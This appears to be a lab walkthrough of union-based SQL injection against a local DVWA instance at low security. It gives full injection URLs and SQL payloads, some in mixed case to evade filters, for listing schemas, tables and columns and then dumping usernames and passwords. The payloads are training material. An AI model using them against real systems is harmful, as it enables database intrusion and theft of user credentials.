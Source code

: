 ### Extract database name

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,schema_name,0x7c)%20fRoM%20information_schema.schemata--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
```

![DVWA_LOW_DB_NAME.png](DVWA_LOW_DB_NAME.png)

### Extract tables from database

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,table_name,0x7c)%20fRoM%20information_schema.tables%20wHeRe%20table_schema=%27dvwa%27--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,table_name,0x7c) fRoM information_schema.tables wHeRe table_schema='dvwa'
```

![DVWA_LOW_TABLENAME.png](DVWA_LOW_TABLENAME.png)

### Extract column name from database

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,column_name,0x7c)%20fRoM%20information_schema.columns%20where%20table_schema=%27dvwa%27--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,column_name,0x7c) fRoM information_schema.columns where table_schema='dvwa'
```

or

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,column_name,0x7c)%20fRoM%20information_schema.columns%20where%20table_schema=database()--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,column_name,0x7c) fRoM information_schema.columns where table_schema=database()
```

![DVWA_LOW_COLUMNNAME.png](DVWA_LOW_COLUMNNAME.png)
Note: here column name can be from different table as well **comment_id** and **comment** is from **guestbook** table
So Craft payload accordingly for dumping full data

### EXTRACT data from table

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,user,0x3a,password,0x7c)%20fRoM%20users--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,user,0x3a,password,0x7c) fRoM users
```

![DVWA_LOW_DATA_DUMP.png](DVWA_LOW_DATA_DUMP.png)
